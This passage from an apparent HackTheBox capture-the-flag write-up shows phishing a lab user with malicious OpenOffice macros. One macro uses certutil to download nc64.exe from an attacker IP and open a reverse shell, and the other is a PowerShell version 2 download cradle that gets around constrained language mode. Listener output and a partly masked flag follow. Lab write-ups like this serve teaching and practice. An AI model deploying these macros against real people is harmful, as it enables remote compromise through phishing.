 #### Payload #1 - certutil and nc.exe

I’ll set my macro to:

    
    
    Sub OnLoad
    
    	shell("cmd /c certutil -urlcache -split -f http://10.10.14.6/nc64.exe C:\programdata\nc64.exe && C:\programdata\nc64.exe -e cmd 10.10.14.6 443")
    
    End Sub
    

I’ll reply all to the TPS email, and include another user, Raziel who shows up
in the list on the left:

![image-20220425174332299](https://0xdfimages.gitlab.io/img/image-20220425174332299.png)

After a few minutes (many minutes, I’ll look at the automation in Beyond
Root), there’s a hit at my webserver for `nc64.exe`, and then a shell:

    
    
    oxdf@hacky$ rlwrap -cAr ncat -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.71.
    Ncat: Connection from 10.10.10.71:37178.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Program Files (x86)\OpenOffice 4\program>whoami
    htb\raziel
    

And I can read `user.txt`:

    
    
    C:\Users\Raziel\Desktop>type user.txt
    c6f45142************************
    

#### Payload #2 - PowerShell -version 2

Another old workaround for constrained language mode was just to tell
PowerShell at startup to use an older version, version 2, that doesn’t support
it. PowerShell v2 is not likely to be present on any modern systems today, but
this definitely was common in 2018.

I’ll give the macro a simple download cradle:

    
    
    Sub OnLoad
        Shell("cmd.exe /C ""powershell.exe -version 2 IEX ((new-object Net.WebClient).DownloadString('http://10.10.14.6/rev.ps1'));""")
    End Sub
    
